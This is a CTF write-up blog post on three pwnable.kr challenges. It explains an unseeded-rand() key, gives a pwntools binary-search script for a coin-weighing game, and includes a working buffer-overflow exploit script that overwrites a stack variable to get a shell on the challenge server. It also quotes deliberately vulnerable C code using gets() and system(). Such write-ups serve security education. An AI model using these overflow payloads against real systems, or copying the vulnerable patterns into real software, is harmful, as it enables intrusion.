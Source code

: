 ```yaml
---
layout: post
title:  "pwnable.kr - random, coin1 & bof"
date:   2018-01-28 01:00:00 +0100
categories: [pwnablekr]
description: ""
image:
  feature: pwnablekrrandomcoinbof.jpg
  credit:
  creditlink:
---
```


This post describes three Toddler's Bottle exploits on [pwnable.kr](http://pwnable.kr/).


Random
------------
This is a simple binary exploitation challenge.  The code for the binary is included once the user has SSH'd in:
```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

Looking at this, there's one obvious problem with the implementation.  The `rand()` function is called without `srand` being used to seed the PRNG.  There's no true random number generator in modern computer science, what's used instead is a pseudo-random number generator.

This seeds a generator with an initial value, and then a sequence of numbers is generated from that seed value, which takes the appearance of true random number generation.  The issue is that for the same seed value, the same sequence will be generated.

Correct implementations will use `srand` function with another number, typicall time, to seed the generator.  To get the random number we just need to compile a call to rand and see the output which is `1804289383`.

To get the value we need to exploit the binary, we just xor that value with 0xdeadbeef, `0xdeadbeef^1804289383=3039230856` and we have our key.

```bash
random@ubuntu:~$ ./random
3039230856
Good!
Mommy, I thought libc random is unpredictable...
```


Coin1
------

We'll netcat to port 9007 and we're greeted with the following message:
```
	---------------------------------------------------
	-              Shall we play a game?              -
	---------------------------------------------------

	You have given some gold coins in your hand
	however, there is one counterfeit coin among them
	counterfeit coin looks exactly same as real coin
	however, its weight is different from real one
	real coin weighs 10, counterfeit coin weighes 9
	help me to find the counterfeit coin with a scale
	if you find 100 counterfeit coins, you will get reward :)
	FYI, you have 30 seconds.

	- How to play -
	1. you get a number of coins (N) and number of chances (C)
	2. then you specify a set of index numbers of coins to be weighed
	3. you get the weight information
	4. 2~3 repeats C time, then you give the answer

	- Example -
	[Server] N=4 C=2 	# find counterfeit among 4 coins with 2 trial
	[Client] 0 1 		# weigh first and second coin
	[Server] 20			# scale result : 20
	[Client] 3			# weigh fourth coin
	[Server] 10			# scale result : 10
	[Client] 2 			# counterfeit coin is third!
	[Server] Correct!

	- Ready? starting in 3 sec... -
```
So we are given a number of coins and we have to find the counterfeit. We can query for the weight of a set of coins and we're also given a maximum number of tries we can make before the server will kick us off.  The only indicator of a counterfeit coin is that the weight will be slightly lower, therefore if the weight of a set is not divisible by 10, then it contains a counterfeit coin.

So this is a pretty classic binary search problem, and whether you know the algorithm or not, it's the intuitive method of solving a problem like this.  Let's take an example of 10 coins in the below diagram:

![](/assets/img/pwnable.kr/coin1.png)

We'll break it down!  Firstly, we'll split our set into two sets of almost equal numbers of coins and we test one of them for the presence of a counterfeit coin.  Set 1-5 is tested and is found to contain the counterfeit.  We split this set into another two sets.

We now test another set, 3-5, which is found to not contain the counterfeit.  We can thus surmise that set 1-2 will contain the counterfeit.  We then split this into the last two sets, 1 and 2.

We now test set 1 which is found to be the counterfeit.  

All that remains is to create some code that will replicate this binary search.  Below I have created a very basic and possible incorrect binary search acting against the remote server's guessing game, doing 100 guesses.

```python
from pwn import *

def generate_guesses(ii, ifin):
    cutoff = ifin - (ifin-ii)/2
    nums = range(ii, cutoff)
    return [str(x) for x in nums]

def run_guesser(remote_pwn_sock, lower, upper):
    x = ' '.join(generate_guesses(lower, upper))
    remote_pwn_sock.send(x+'\n')
    weight = r.recv()
    if 'Correct!' in weight:
        print weight
        return 1
    if int(weight) % 10 == 0:
        run_guesser(remote_pwn_sock, upper-(upper-lower)/2, upper)
    else:
        run_guesser(remote_pwn_sock, lower, upper-(upper-lower)/2)


r = remote('localhost', 9007)

r.recvuntil('3 sec... -')
r.recv()


for _ in range(100):
    n, c = [int(x.split('=')[1]) for x in r.recv().strip().split(' ')]
    run_guesser(r, 0, n)
r.interactive()
```

bof
-----
For this we're given a piece of code, a binary and a remote port we can connect to.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Looking at the code, this is fairly self-explanatory.  Since there's no controls on the amount we can send to the program, if we send enough we'll overwrite the `key` variable stored on the stack.  If we overwrite it with `0xcafebabe` we'll be returned a shell.

The sensible thing here would have been to download the binary and calculate the offset of the `key` variable in memory from the `overflowme` buffer.  Of course, I'm not sensible and this didn't seem worth the effort.

In this case I just tested a simple skeleton script and slowly adjusted the length of my buffer by 4 bytes each time.  At a length of 56 bytes I was returned a root shell:

```python
from pwn import *

p = remote('pwnable.kr',9000)
p.send('A'*52+p32(0xcafebabe)+'\n')
print p.interactive()
```
